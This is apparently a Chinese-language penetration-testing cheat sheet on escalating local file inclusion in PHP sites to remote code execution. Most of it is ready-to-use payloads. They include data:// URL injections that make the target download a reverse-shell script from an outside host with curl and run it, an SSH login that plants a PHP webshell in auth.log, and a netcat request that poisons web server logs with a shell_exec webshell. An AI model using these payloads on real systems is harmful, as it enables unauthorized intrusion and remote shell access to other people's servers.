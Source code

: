 ```yaml
---
description: 常借助于日志写入来造成rce,如果有phpinfo,那就是rce,又是也借助伪协议
---
```


# lfi

当获取lfi之后，可以选择的方式有如下几个

ssh日志中毒，web日志中毒，smb日志中毒，写文件后访问，还有伪协议（比赛用的多，实际很少）

参考链接

{% embed url="https://www.anquanke.com/post/id/177491" %}



我认为最好用的方法：（写入再访问）

```bash
http://10.11.1.35/section.php?page=data:text/plain,<?php echo shell_exec("curl http://192.168.119.167/reverseshell.sh --output /tmp/reverseshell.sh");?>

http://10.11.1.35/section.php?page=data:text/plain,<?php echo shell_exec("bash /tmp/reverseshell.sh");?>
```

1.  ssh日志中毒（不过直接看不到的话不建议继续尝试）

    ```bash
    留日志方式：
    ssh '<?php system($_GET['xss']); ?>'@192.168.1.119

    ubuntu默认位置/var/log/auth.log
    centos默认位置/var/log/secure
    如果都没有
    查看/etc/ssh/sshd_config
    定位到记录日志使用的SyslogFacility
    查看/etc/rsyslog.conf 
    定位到对应SyslogFacility 的存储路径
    ```
2. smb日志中毒

```bash
留日志方式
rect to <php>

具体的路径我忘记了
需要用的话可以百度
```

1. web日志中毒

```bash
一般方法实例
nc -nv 10.11.0.22 80
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
404也正常，但是日志就会写入了
HTTP/1.1 400 Bad Request

1. /proc/self/environ
需要有/proc/self/environ的读取权限
修改ua头

2. /proc/self/fd/xxx
referer或报错等写入php代码

3. apache日志
需要有/var/log/apache2/...的读取权限
包含access.log和error.log来rce
但log文件过大会超时返回500，利用失败
```

更多的apache日志地址

```bash
https://github.com/tennc/fuzzdb/blob/master/attack-payloads/lfi/common-unix-httpd-log-locations.txt
```
